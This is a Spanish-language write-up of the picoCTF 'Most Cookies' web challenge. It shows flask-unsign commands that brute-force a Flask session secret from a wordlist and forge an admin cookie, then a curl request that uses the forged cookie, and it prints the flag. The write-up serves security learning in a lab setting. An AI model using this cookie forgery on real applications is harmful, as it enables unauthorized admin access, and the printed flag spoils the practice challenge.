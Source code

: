 
## Reto
Most Cookies

## Descripcion
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/60f76192f6e1fea6f4e6e8c5fc9a6a27/server.py) [http://mercury.picoctf.net:44693/](http://mercury.picoctf.net:44693/

## Solucion
- Abrimos la pagina y nos da un cuadro de texto
- Al poner cualquier cosa nos genera una cookie encriptada con flask
- para desincreptarla usaremos flask-unsign de python
- al tratar de instalarlo nos marca error por lo que usaremos un entorno virtual
```
python -m venv ~/.venv 
source ~/.venv/bin/activate 
pip3 install flask-unsign
```
- como nos dieron el codigo fuente con todas las listas de palabras creamos `nano cookies.txt` y dentro ponemos la lista de todas las palabras posibles separadas por salto de linea
- usando esa lista aplicamos `flask-unsign --unsign --cookie "[cookie copiada]" --wordlist cookies.txt` y nos regresa la palabra secreta

- Con la palabra secreta ahora aplicamos `flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret '[palabra secreta]'`
  y nos regresa una cookie de admin

- Ahora aplicamos `curl -s [link de pagina]/display -H "Cookie: session=[cookie admin]" | grep pico` para que nos regrese la respuesta de admin y encontrar la bandera facil con un grep: **picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}**

## ALT
- correr un script que no me funciono :v
## Notas
- una cookie de flask no es muy segura y depende de como las configuramos
## Errores
### No se porque nomas me funciono una vez pero la bandera no sirvio y ya no volvio a servir

<img width="1047" height="589" alt="image" src="https://github.com/user-attachments/assets/f07d5ff1-218b-4517-8062-016569e29ef8" />
## Correcion
- al aplicar `flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret '[palabra secreta]'` estaba poniendo tambien la cookie copiada, y solo tenia que dar enter para que generara la cookie de admin
- Al aplicar el curl estaba usando el link copiado del discord, pero necesitaba copiar el que tenia en mi propio navegador
- Ahora me pregunta porque si sirvio 1 vez si lo tenia todo mal

## Referencias
[PicoCTF 2021 — Most Cookies - Private User HQ - Medium](https://medium.com/private-user-hq/picoctf-2021-most-cookies-7f3d8b6cd0b)
[picoCTF 2021 - [ Web ] - Most Cookies - YouTube](https://www.youtube.com/watch?v=ufs1xqSQCUM&list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&index=66)
